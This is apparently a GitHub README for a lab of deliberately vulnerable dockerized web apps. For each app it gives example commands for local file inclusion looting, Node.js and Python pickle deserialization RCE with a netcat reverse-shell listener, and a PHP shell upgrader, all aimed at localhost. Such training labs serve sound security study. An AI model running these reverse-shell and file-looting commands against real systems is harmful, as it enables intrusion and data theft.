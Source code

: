 # vulnhub

## Description

This project is some dockerized web applications that has any known vurnerability and a example on 
how to exploit them.

## Usage

Start all vurnerable docker containers

```sh
   docker-compose up -d
```

## lfi-php5 

Example on how to exploit this container.\
This command is an example on how to loot serverside files that normally will not be able to browse or download by use a LFI (local file inclusion) 

```sh
lfi-loot.py -f index.php -g file -u http://localhost:8080
``` 

##  nodejs-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./nodejs_deser_rce_nc.py http://localhost:3000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./nodejs_deser_rce.py http://localhost:3000 127.0.0.1 1337
```

##  pypickle-deserialization

Example on how to exploit this container.

```sh
nc -nlvp 1337
./pycpickle_deser_rce_nc.py http://localhost:5000 127.0.0.1 1337
```
Same exploit with listener build in so no netcat listener needed.
```sh
./pypicke_deser_rce.py http://localhost:5000 127.0.0.1 1337
```

##  get-php

Example on how to exploit this container.
 
```sh
shellupgrader.py http://localhost/index.php 127.0.0.1 1337
```
